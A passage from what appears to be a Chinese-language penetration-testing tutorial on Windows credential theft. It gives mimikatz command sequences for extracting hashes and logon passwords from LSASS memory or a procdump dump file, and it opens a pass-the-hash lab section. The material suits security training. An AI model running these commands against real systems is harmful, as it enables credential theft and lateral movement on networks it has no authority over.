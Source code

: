 [![](assets/1706958938-1fa36632f11314106120876942c75006.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172304124-1165193945.png)

> 在这⾥可以看⻅图中带有管理员信息，若是中真实环境中拿到此信息基本就宣告着结束。

#### 3、进阶使用

①利用 procdump 导下来的 dump 文件与 mimikatz 配合使用获取凭据

```plain
mimikatz # log      //记录所得到的信息
mimikatz # sekurlsa::minidump passwd.dmp     //切换环境（挂载 dmp 文件）
mimikatz # sekurlsa::logonpasswords     //列出所有可用的凭据
```

②直接利用 minikatz 获取凭据（需要管理权限）

```plain
mimikata # log          //记录所得到的信息
mimikatz # privilege::debug       //提权（获得 mimikatz 程序的特殊操作）
mimikatz # sekurlsa::msv     //提取内存的 HASH 值
mimikatz # sekurlsa::logonpasswords      //列出所有可用的凭据
```

## 五、实验：PTH（pass-the-hash）哈希传递

### ①简介

哈希传递是⼀种⿊客技术，攻击者可⽤使⽤⽤户密码的 hash 对远程服务器进⾏身份验证，扩⼤战果。其实就是⼀种 `撞库` 的⾏为。在拥有 NTLM hash 的情况下，我们可以⾮常轻易的使⽤ mimikatz 的 `sekurlsa::pth` 发起⼀次 PTH。
